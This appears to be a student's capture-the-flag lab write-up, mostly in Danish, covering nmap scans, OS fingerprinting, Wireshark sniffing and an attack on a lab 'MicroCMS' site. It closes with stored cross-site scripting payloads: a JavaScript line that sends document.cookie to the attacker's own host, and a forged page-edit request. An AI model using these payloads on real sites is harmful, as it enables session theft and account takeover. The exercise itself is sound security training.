# Opgaver til T3 del 1

> Brug ifconfig til at finde ud af hvilket netværk I er på, og hvilke andre maskiner der potentielt kan være på samme netværk.

Først finder jeg ip.



Derefter laver jeg en ip scan på netwærket.
Læg mærke til ip og mask da dette skal bruges igen i nmap.



Her kan jeg se at der er nogle forskellige enheder der **svarer**.

- 10.150.89.2
- 10.150.89.3
- 10.150.89.4
- 10.150.89.5
- 10.150.89.31
- 10.150.89.41
- 10.150.89.51
- 10.150.89.108
- 10.150.89.159
- 10.150.89.164

> Brug nmap til at finde andre maskiner i netværket. Prøv forskellige typer af scanninger, og evaluer hvilke informationer I får ud af det vs. hvor lang tid det tager at gennemføre scanningerne.

Først prøves en simpel fuld portscan.



Dette tog 2.19 sekunder.

Derefter prøves en stealth scan



Dette tog 2.45 sekunder. 
Og giver det samme resultat som en normal portscan.

> Brug nmap til at finde ud af hvilke operativsystemer der kører på de forskellige maskiner i lab'et.

Nu prøves en OS scan hvor den kigger på finger prints.
Dette gøres med `-O`.



Dette tog 7.17 sekunder.
Man kan også se at den har fundet information om hvilket OS og version modtager bruger.
Det er også sjovt at se at den ikke har kunne bestemme `10.150.89.2`.

> Find en web-server (der kun er web-server).

Her kigges i resultaterne fra den sidste scan.



Nu checkes der om det faktisk er en webserver der lytter.



Yay.

> Al trafik i lab'et kører gennem jeres Kali-maskine. Kan I finde et ikke-krypteret login et sted i trafikken? (brug Wireshark)

Login kommer tit gennem http POST request, så det kan man prøve at sortere efter i wireshark.



> Prøv at find flaget i MicroCMS hjemmesiden - det kræver lidt kreativitet, men ingen værktøjer

Efter at have kigget lidt på de forskellige servere blev MicroCMS hjemmesiden fundet på `10.150.89.164`.



Det ser ud til at man kan lave sider og man kan redigere sidder.
Den mest aktive ser ud til at være `Event 1` der snakker om et møde i næste uge.

Først prøver jeg at redigere `Event 1` ved at tilføje lidt tekst.
Efter redigering er testes indsættes `hej med <b>dig</b>`.



Yay det virker, så kan man måske også indsætte billeder og javascript.
Hvis der er andre der også er på siden, hvad kan man så få ud af dem?

Url'erne til at få en side har følgende format `/page.php?view=2`.
Hvad hvis man prøver nogle af de andre tal efter 2.



That was expected.


What if we change `view` to `edit`?



Okay. Can we place some javascript that will send the content of this page to a webserver?
Lets start with one that sends all cookies.

```
var x = new XMLHttpRequest; x.open("GET", "http://10.150.89.5:4000/" + document.cookie, true); x.send( null )
```

This will send a GET with the cookie in the url.
On the local kali machine a webserver is started with php -S.
This will print all request send, even if they 404.



Now this javascript is placed as a script tag in the `Event 1` document.



After waiting a short while nothing happened.
Going to try something else.
The following will edit page 11 with some data ( in this case "hej medddd dig" ).

```
var x = new XMLHttpRequest; x.open("POST", "http://10.150.89.164/page.php?edit=11", true); var f = new FormData(); f.append("title", "testi"); f.append("content", "hej medddd dig"); x.send( f )
```

Now content is replaced by document.cookie and placed in meeting thing.
